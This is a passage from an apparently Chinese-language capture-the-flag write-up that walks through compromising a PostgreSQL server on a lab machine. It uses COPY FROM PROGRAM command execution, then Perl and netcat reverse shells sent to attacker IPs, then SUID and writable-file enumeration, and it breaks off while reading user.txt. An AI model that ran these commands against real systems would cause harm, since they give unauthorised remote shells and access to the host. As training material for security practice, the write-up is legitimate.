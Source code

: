 https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql

```bash
psql -h <host> -p <port> -U <username> -W <password> <database> # Remote connection
psql -h 172.20.10.3 -p 5432 -U postgres 
```

查询内容，但是实在麻烦，我也不太会只能一个一个查，尝试使用提供的poc实现rce！

```bash
#PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;

#Reverse shell
#Notice that in order to scape a single quote you need to put 2 single quotes
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.0.104:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```

```bash
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"172.20.10.8:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```

似乎不行，换一个：

```bash
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'nc -e /bin/bash 172.20.10.8 1234';
SELECT * FROM cmd_exec;
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404071800989.png" alt="image-20240407172607479" style="zoom:50%;" />

## 提权

### 信息搜集

```bash
(remote) postgres@zurrak:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/chfn
/usr/bin/umount
/usr/bin/passwd
/usr/bin/mount
/usr/bin/fusermount3
/usr/bin/su
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
(remote) postgres@zurrak:/$ find / -writable -type f 2>/dev/null
/var/log/postgresql/postgresql-15-main.log.2.gz
/var/log/postgresql/postgresql-15-main.log.1
/var/log/postgresql/postgresql-15-main.log
(remote) postgres@zurrak:/$ cd /home
(remote) postgres@zurrak:/home$ ls
postgres
(remote) postgres@zurrak:/home$ cd postgres/
(remote) postgres@zurrak:/home/postgres$ ls
emergency.sh  user.txt
(remote) postgres@zurrak:/home/postgres$ cat user.txt 
```
